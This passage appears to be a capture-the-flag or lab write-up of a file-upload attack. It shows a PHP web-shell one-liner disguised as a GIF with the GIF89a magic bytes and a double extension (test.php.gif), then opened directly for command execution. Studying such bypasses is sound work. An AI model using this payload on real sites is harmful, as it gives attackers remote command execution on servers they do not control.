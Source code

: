 ![](./IMG/8.png)
- Inject PHP one liner payload and pretend it as GIF by start the magic word (```GIF89a```)
```
GIF89a
<?php system($_GET['cmd']); ?>
```
- And set up the file name like ```test.php.gif```

![](./IMG/9.png)
- Check the photo page, the uploaded file will display in here

![](./IMG/10.png)
- Direct accesss to the uploaded file